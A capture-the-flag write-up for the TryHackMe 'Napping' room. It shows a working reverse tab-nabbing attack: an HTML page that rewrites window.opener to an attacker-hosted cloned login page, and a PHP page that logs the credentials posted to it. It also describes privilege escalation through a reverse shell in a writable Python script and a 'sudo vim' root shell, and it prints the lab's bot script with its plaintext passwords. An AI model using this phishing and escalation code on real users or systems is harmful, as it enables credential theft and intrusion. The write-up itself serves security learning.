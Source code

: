 # Napping

- Recon revealed 22 and 80. 
- On 80 was a website with a login form (on index.php), register page, reset password page, and a welcome page where you could submit any link with the promise the admin would 'review' it.
- Additionally, there was an /admin/login.php page.

## Foothold

This room was quite tricky - it took me a while to make the connection from the name and the hint: 

**To hack into this machine, you must look at the source and focus on the target.**

Initially I tried XSS but that wasn't working - it seemed to, as in I could place payloads that would affect myself, but the admin wasn't affected. Eventually I made the jump from 'target' and napping - after submitting a link, it was presented back to you as a hyperlink. This was setup with `target="_blank"` - if the admin was setup the same way, then this might be vulnerable to a **tab napping** attack, also called a tab na**bb**ing attack.

> Tab napping is a form of phishing: you create a link with target `_blank`, which will open in a new tab. On the page the user opens, you have script that manipulates the tab the user just came from, via `window.opener`. The idea is while they are on your new tab, you change their old tab into a cloned login form or similar, in the hope that when they return they assume their session has timed out and they re-login.

Also a good link for this: https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

So I set this up, using a PHP webserver on my attack box (`php -S 0.0.0.0:1234` - I had to install the PHP cli on the THM attack box), hosting two files:

**landing.html**:

```html
<script>
        window.opener.location = 'http://10.10.150.135:1234/login.php';
</script>
```

and **login.php**, which logs any input it gets to std out:

```php
<?php
if (isset($_POST["username"])) {
        $stdout = fopen('php://stdout', 'w');
        fwrite($stdout, $_POST["username"] . ":" . $_POST["password"]);
}
?>


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">

        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

Few notes about the above. I spent hours on this and couldn't get it working, because I was cloning the *wrong* login page. As I eventually discovered, the script simulating the admin looks for the presence of the work 'Admin' in the text - if it finds it it posts, otherwise it does nothing.

With this setup, submitting the landing.html url to the form would result in the admin visiting it (on a 1 minute schedule), then visiting my login.php, and then submitting their credentials. These credentials worked to get ssh as `daniel`.

## Path to root

After getting past the tab napping, the rest was easy.

- daniel was a member of the administrators group, which allowed him to write a file called query.py in the other user's home folder, /home/adrian
- adding a reverse shell payload to this (or any python, like something which copied `sh` and set the suid bit) allowed me to get a session as adrian.
- adrian could run vim as sudo, so I got a root shell with `sudo vim -c ':!/bin/sh'`

## Bonus

The script used to simulate the admin for this was as follows:

```python
import requests
import re
import mysql.connector
import string
import random

mydb = mysql.connector.connect(
        host="localhost",
        user="adrian",
        password="Stop@Napping3!",
        database="website"
        )

mycursor = mydb.cursor()

mycursor.execute("SELECT * FROM links")

myresult = mycursor.fetchall()

data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

N = 26

cookie =  ''.join((random.choice(string.ascii_lowercase + string.digits) for x in range(N)))

headers = {
        "PHPSESSID":cookie,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0"
        }

for x in myresult:
    url1 = x[0]


    try:
        r1 = requests.get(url1,headers=headers,timeout=2)
        search = r1.text
        if (search.find('location.replace') != -1):
            match = re.findall("http(.*)\);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

        elif (search.find('opener.location') != -1):
            match = re.findall("http(.*);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

    except requests.exceptions.ReadTimeout:
        continue
```

Quite clever, while also a little dumb: as its not actually processing the javascript, you can have a fun time trying to get clever with the xss to no avail. I tried stealing the cookie multiple ways, which is funny as above its shown that its completely random. Also doing something like `window.opener = <my url> + document.cookie` would result in some weird outputs, specifically receiving a request like `/+document.cookie`.

Finally, it also means you can hack the above with one file (could be done with some sort of netcat thing without php too id wager):

```

```
